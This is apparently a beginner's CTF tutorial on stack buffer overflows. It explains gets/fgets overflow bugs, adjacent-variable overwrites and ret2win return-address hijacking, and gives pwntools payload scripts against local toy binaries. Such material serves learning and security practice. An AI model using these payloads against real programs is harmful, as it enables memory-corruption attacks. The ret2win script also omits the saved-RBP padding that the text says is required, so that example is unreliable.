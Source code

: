 # Stack Overflow
## Identification
We can know there is buffer or stack overflow vulnerabilities when a input function without limit or the limit is exceed the buffer capacity. 
Example:
```
char buff[50]
gets(buff)     // gets function will take input without limit until reach null terminator
```

or with limit with `fgets()`
```
char buff[50]
fgets(buff, 100, stdin) // fgets take input 100 char but the buffer capacity only 50 char
```

## Exploitation and Vulnerabilities
### Variables Overwrites (idk the real name)
This one the most simple one. If you can see there is two variables next each other and one of them is the buffer and the other will compared later.  
The example of the source code are like this
```
int cmp
char buff[20]
gets(buff)
if(cmp == 0xCAFEF00D)
{
    win()
}
```
You can see on that code. We need to change the cmp value to `0xCAFEF00D` so that we can call win function. We can send it using python code with `pwntools` module or we can inject it with pipe directly.  
We know the buffer capacity is 20, then we need fill the buffer first then input desired value for the `cmp`.  
so the payload will go like this  
`b'AAAAAAAAAAAAAAAAAAAA\x0D\xF0\xFE\xCA'`  
the reason for the payload is reversed because the memory stores value with little-endian encoding and the reason for we store it `\x0D` because we input it as char but there is no readable char representation for it so we use byte string to input char based on its hex value.  
Payload  
```
p = process('./var')

payload = b'A' * 20   # Padding
payload += b'\x0D\xF0\xFE\xCA' # Desired value
# OR We can use
payload += p64(0xCAFEF00D) # or p32 for x86 architecture

p.sendline(payload)
p.interactve()
```
`p64` or `p32` function is used for convert integer to 8 bytes or 4 bytes little-endian encoding or pack the integer based on system architecture

### Ret2Win
This one bit more interesting then one before.  
Ret2win is exploitation where we overwrites the function return address so that we can return to desired function. To understand it further, I will give simple memory stack layout  
```
 ============
|  Ret Addr  |
 ============
|  Old RBP   | <= RBP
 ============
|            |
|            |
|   Buffer   |
|            |
|            | <= RSP
 ============
```
so, our input will starting from the base of the buffer and fill upwards. if there is no limit in the input, we can overwrite the old rbp even return address.  
Source Code Example:  
```
void win()
{
    puts(flag)
}

void vuln()
{
    char buff[20]
    gets(buff)
}

int main()
{
    vuln()        
}
```
Same as before, the buffer capacity is 20. so we need to fill it first so we can reach old RBP. RBP is a register that save a pointer. So, Old RBP section must be contain 8 bytes for x86-64 or 4 bytes for x86. so we need add the padding for fill the old RBP section before reach return address.  
Payload:  
`b'A' * 20 + b'B' * 8 + <win address>`  
Let say the win function located at `0x12345`  
so our full code goes like this  
```
p = process('./var')

payload = b'A' * 20   # Padding
payload += p64(0x12345) # or p32 for x86 architecture

p.sendline(payload)
p.interactve()
```  

**Section after this will explain how ret2win works more detail, if you don't feel interested or you already understand you can skip it**  
So if you wondering how this is works, like why return address located there ? why there is old RBP saved on stack ?  
We need know how call and ret instruction works  
So when program called a function or a another instruction, it also will save the address of next instruction after the call.  
Disassemble code example :  
```
.
.
.
0x24 <main+20> call vuln
0x25 <main+21> mov rax 0x8(rbp)
.
.
.

0x123 <vuln> push rbp
0x124 <vuln+1> mov rbp, rsp
.
.
.
0x13a <vuln+23> ret
```  
There is one register to manage how the program run, the name is `rip` ( on x86-64 ).
`RIP` will save next instruction so the program know what instruction will be executed.  
so when `call` instruction is executed, the `RIP` value is saved on the stack with `push RIP` (means RIP value will save on top of the stack which means located on where rsp point to) and then RIP will save the called function address. if we see on the example the pushed value will be `0x25` and the RIP will have `0x123`.  
when ret is executed, the RSP register will point to return address means it will point to `0x25` again. the ret instruction is equal to `pop rip`, so the value on the top of the stack will saved again at rip register. so the program will be back to `0x25`.  
Now, if we change the `0x25`, we can control the program flows. That's what we doing in ret2win, we change the return address value so when ret is called. The `RIP` register have the desired function address, not the caller address.
